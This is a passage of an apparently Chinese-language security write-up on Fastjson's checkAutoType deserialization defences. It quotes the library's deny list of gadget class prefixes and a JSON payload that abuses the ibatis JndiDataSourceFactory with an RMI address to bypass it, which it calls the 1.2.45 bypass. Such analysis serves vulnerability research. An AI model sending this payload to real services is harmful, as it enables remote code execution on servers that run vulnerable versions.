 ```
                    `}`

                `}`

            `}`



            for(mask = 0; mask &lt; this.denyList.length; ++mask) `{`

                accept = this.denyList[mask];

                if (className.startsWith(accept) &amp;&amp; TypeUtils.getClassFromMapping(typeName) == null) `{`

                    throw new JSONException("autoType is not support. " + typeName);

                `}`

            `}`

        `}`
```

防御的方式比较清晰，限制长度+黑名单，这个时候第一时间产生的想法自然是绕过黑名单，先看一下第一版的黑名单：

```
this.denyList = "bsh,com.mchange,com.sun.,java.lang.Thread,java.net.Socket,java.rmi,javax.xml,org.apache.bcel,org.apache.commons.beanutils,org.apache.commons.collections.Transformer,org.apache.commons.collections.functors,org.apache.commons.collections4.comparators,org.apache.commons.fileupload,org.apache.myfaces.context.servlet,org.apache.tomcat,org.apache.wicket.util,org.apache.xalan,org.codehaus.groovy.runtime,org.hibernate,org.jboss,org.mozilla.javascript,org.python.core,org.springframework".split(",");
```

其实第一版的黑名单还是挺强大的，关于黑名单的绕过，就我已知的目前只有一个依赖于ibatis的payload，当然因为ibatis在java里面的使用还是非常广泛的，所以这个payload危害也是比较大的，这也就是1.2.45的绕过。

```
`{`"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":`{`"data_source":"rmi://localhost:1099/Exploit"`}``}`
```

绕过黑名单是第一种思路，但是安全界大牛们思路还是比较灵活的，很快又发现了第二种思路，我们再仔细看一下checkAutoType函数的下面这几行代码：

```
f (!this.autoTypeSupport) `{`

    for(mask = 0; mask &lt; this.denyList.length; ++mask) `{`

        accept = this.denyList[mask];

        if (className.startsWith(accept)) `{`

            throw new JSONException("autoType is not support. " + typeName);

        `}`

    `}`



    for(mask = 0; mask &lt; this.acceptList.length; ++mask) `{`

        accept = this.acceptList[mask];

        if (className.startsWith(accept)) `{`
```